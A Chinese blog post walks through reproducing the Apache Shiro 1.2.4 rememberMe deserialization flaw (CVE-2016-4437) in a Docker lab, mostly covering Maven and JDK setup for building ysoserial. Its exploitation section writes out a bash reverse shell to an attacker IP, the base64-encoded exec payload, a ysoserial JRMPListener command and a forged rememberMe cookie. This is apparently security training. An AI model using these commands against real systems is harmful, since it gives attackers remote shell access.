





# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437）复现 - Zh1z3ven - 博客园

> 原文：[`www.cnblogs.com/CoLo/p/14025101.html`](https://www.cnblogs.com/CoLo/p/14025101.html)

# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437）复现

## 环境搭建

```
docker pull medicean/vulapps:s_shiro_1

docker run -d -p 8080:8080 medicean/vulapps:s_shiro_1

# 访问 靶机 IP:8080 出现如下图环境即可 
```


## Apache Shiro 特征

Cookie 中构造 rememberMe，返回包会有 rememberMe=deleteMe


## apache-maven（mvn）安装

官网下载:[`maven.apache.org/download.cgi`](http://maven.apache.org/download.cgi)

参考文章：[`blog.csdn.net/youb11/article/details/46120041`](https://blog.csdn.net/youb11/article/details/46120041)

注意文中 apache 版本为 3.3.3，而官网最新版为 3.6.3 下载时注意版本号。同时注意最后一行 JDK 版本。

```
First, install a JDK.

# sudo apt-get install openjdk-8-jdk

We need Maven to build ODL. Install the most recent version of Maven

# sudo mkdir -p /usr/local/apache-maven

Download the maven source code

# wget https://mirrors.tuna.tsinghua.edu.cn/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz

Now install maven

# sudo mv apache-maven-3.6.3-bin.tar.gz /usr/local/apache-maven
# sudo tar -xzvf /usr/local/apache-maven/apache-maven-3.6.3-bin.tar.gz -C /usr/local/apache-maven/
# sudo update-alternatives --install /usr/bin/mvn mvn /usr/local/apache-maven/apache-maven-3.6.3/bin/mvn 1
# sudo update-alternatives --config mvn
# sudo apt-get install vim
# vim ~/.bashrc

Add these to your ~/.bashrc

export M2_HOME=/usr/local/apache-maven/apache-maven-3.6.3
export MAVEN_OPTS="-Xms256m -Xmx512m" # Very important to put the "m" on the end
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64 # This matches sudo update-alternatives --config java 
```

（踩坑 Orz）执行完 mvn package `-`D skipTests 的报错信息：

```
[INFO] Changes detected - recompiling the module!
[INFO] Compiling 59 source files to /usr/local/ysoserial/target/classes
[WARNING] Unable to autodetect 'javac' path, using 'javac' from the environment.
[INFO] ------------------------------------------------------------------------
[INFO] BUILD FAILURE
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  11:34 min
[INFO] Finished at: 2020-10-10T16:11:52+08:00
[INFO] ------------------------------------------------------------------------
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-compiler-plugin:3.5.1:compile (default-compile) on project ysoserial: Compilation failure -> [Help 1]
[ERROR] 
[ERROR] To see the full stack trace of the errors, re-run Maven with the -e switch.
[ERROR] Re-run Maven using the -X switch to enable full debug logging.
[ERROR] 
[ERROR] For more information about the errors and possible solutions, please read the following articles:
[ERROR] [Help 1] http://cwiki.apache.org/confluence/display/MAVEN/MojoFailureException 
```

可能是 jdk 版本问题

原有的 kali 的 jdk 是 openjdk


使用 oracle 账号在官网下载 JDK，我下载的是 jdk-8u261-linux-x64.tar.gz

```
cd /usr/local
mkdir java
mv /root/桌面/jdk-8u261-linux-x64.tar.gz /usr/local/java/
tar -zxvf jdk-8u261-linux-x64.tar.gz
cd jdk-8u261
可以看到有如下目录
# root@kali:/usr/local/java/jdk-8u261# ls
# jdk1.8.0_261  jdk-# 8u261-linux-x64.tar.gz
将 jdk1.8.0_261 移动到（不能 cp）/opt 目录下
mv jdk1.8.0_261 /opt/

设置环境变量
编辑.bashrc 文件
vim ~/.bashrc

添加如下内容
# install JAVA JDK
export JAVA_HOME=/opt/jdk1.8.0_261
export CLASSPATH=.:${JAVA_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH

加载环境变量
source ~/.bashrc

依次执行以下命令（注意版本）
update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_261/bin/java 1
update-alternatives --install /usr/bin/javac javac /opt/jdk1.8.0_261/bin/javac 1
update-alternatives --set java /opt/jdk1.8.0_261/bin/java
update-alternatives --set javac /opt/jdk1.8.0_261/bin/javac 
```


确认版本无误了之后重新 mvn 一遍

```
mvn package -D skipTests 
```

如下图，应该是可以了。



生成的工具在 target/目录 ysoserial-0.0.6-SNAPSHOT-all.jar 文件

## 漏洞复现

访问靶机中的环境，利用 burpsuite 抓包发到 repeater 模块



## 漏洞利用（反弹 shell）

攻击机 nc 监听端口

```
nc -lvp 22222 
```

反弹 shell 命令

```
bash -i >& /dev/tcp/192.168.124.141/22222 0>&1 
```

加密 payload

**需要加密是因为通过 Runtime.getRuntime().exec()执行命令的 payload 有时会因为 payload 中的管道符或重定向符并不会被正常解析导致执行了错误的 payload。**

网址：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)



加密后 payload

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNC4xNDEvMjIyMjIgMD4mMQ==}|{base64,-d}|{bash,-i} 
```

通过 ysoserial-0.0.6 ysoserial 中的 JRMP 监听模块，监听 6666 端口并执行反弹 shell 命令

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNC4xNDEvMjIyMjIgMD4mMQ==}|{base64,-d}|{bash,-i}' 
```

使用脚本帮我们伪造 cookie 内容

```
python2 shiro.py 攻击者 IP:攻击者监听的 java 端口 
```


生成好的 rememberMe 字段值，替换 bp 中的 rememberMe 的字段值并重放包即可看到反弹回的 shell

```
rememberMe=Kzbs0pSpSxmSLgAgPiIvFq7ntNSoNYXRT1T+Xaa7VeboWH82Qsv07K09H1lQUxoLWw66Gtt8cVCbcG7uq3lzEJnBuwv3LyzzqziufDwME4/1FMp2gi7lzWkfAWGpJKJ/zGnePFYQ84pk0pQVExdVuPmzjQme+Yra6wlmbZEiXuu9/+HrLWJGnDwCzTcoj1ChzG+D3ZRltS2jFGdLuHykNWgmDYP53w/f+2rqydZFaVAjnHVefQ6LYexckDQoCd2R8dZOjV4Qbbys69PZR++h16WOGLhOvDQy/5hGHtvfwaYm7/Sf+h7KuuZVHH+lbdyly8ZWELDdclhnJWu6XBoKYjJV3pX3Qci0oYTiKmBXsJOlMam43Zap0vPJR6I8OPnHra1J/q/J4TONTYU0UUpuHA== 
```

## Ubuntu 切换 dash 为 bash

ubuntu 在 6.10 版本后默认的 sh 软链接就变成了 dash 了（所以在 ubuntu 搭建的漏洞环境可能默认情况下弹不了 shell），而反弹 shell 一般用的是 bash 命令，我们改一下 sh 软链接的指向方便看结果

```
zzw@ubuntu:~/Desktop$ ls -l /bin/sh
lrwxrwxrwx 1 root root 4 Jul 22 18:42 /bin/sh -> dash
zzw@ubuntu:~/Desktop$ sudo dpkg-reconfigure dash
# 命令执行完后会弹框，选否即可
[sudo] password for zzw: 
Removing 'diversion of /bin/sh to /bin/sh.distrib by dash'
Adding 'diversion of /bin/sh to /bin/sh.distrib by bash'
Removing 'diversion of /usr/share/man/man1/sh.1.gz to /usr/share/man/man1/sh.distrib.1.gz by dash'
Adding 'diversion of /usr/share/man/man1/sh.1.gz to /usr/share/man/man1/sh.distrib.1.gz by bash'
zzw@ubuntu:~/Desktop$ ll /bin/sh 
lrwxrwxrwx 1 root root 4 Nov 22 22:44 /bin/sh -> bash*
zzw@ubuntu:~/Desktop$ 

# 当然也可以用 sudo dpkg-reconfigure dash 改回去 
```

## 反弹结果

ps：（vulhub 的环境弹 shell 有问题，vulapps 的可以成功复现）





## 参考文章

[`www.cnblogs.com/wwlww/p/8410174.html`](https://www.cnblogs.com/wwlww/p/8410174.html)

[`www.cnblogs.com/panisme/p/12552838.html`](https://www.cnblogs.com/panisme/p/12552838.html)

[`mp.weixin.qq.com/s/8F5tmbJsE0SshrYK-fRl-g`](https://mp.weixin.qq.com/s/8F5tmbJsE0SshrYK-fRl-g)

[`www.cnblogs.com/renhaoblog/p/12971152.html`](https://www.cnblogs.com/renhaoblog/p/12971152.html)